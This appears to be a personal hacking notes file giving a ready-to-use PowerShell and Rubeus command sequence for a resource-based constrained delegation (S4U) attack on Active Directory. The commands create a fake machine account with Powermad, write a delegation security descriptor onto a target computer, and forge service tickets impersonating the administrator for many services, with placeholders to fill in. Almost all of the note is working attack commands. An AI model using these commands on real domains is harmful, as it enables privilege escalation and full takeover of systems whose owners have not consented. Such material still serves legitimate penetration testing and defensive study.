 # resource based constrained delegation S4U attack powershell commands on target
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
- powermad https://github.com/Kevin-Robertson/Powermad
- targetComputer = the machine to privesc
- FAKECOMPUTER = the machine we added
- use rubeus to hash
- replace hashes in s4u command
- replace domain and FQDN

```powershell
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount FAKECOMPUTER -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# substitute domain
.\Rubeus.exe hash /password:'p@ssword!' /user:FAKECOMPUTER$ /domain:domain.local
# substitute hashes, domain, fqdn
.\rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:HASH_HERE /aes128:HASH_HERE /rc4:HASH_HERE /impersonateuser:administrator /msdsspn:cifs/FQDNMachine.domain.local /domain:domain.local /ptt
# copy base64 from smb ticket to your machine and decode it to do impacket-psexec

# alternate command - request all kinds of tickets
.\rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:HASH_HERE /aes128:HASH_HERE /rc4:HASH_HERE /impersonateuser:administrator /msdsspn:cifs/FQDNMachine.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

# References
- [20221003151148](/zet/20221003151148/README.md) resource based constrained delegation S4U attack
- ~/kb/hacking/windows/AD-resource-based-constrained-delegation-attack.md

Tags:
    #assorted
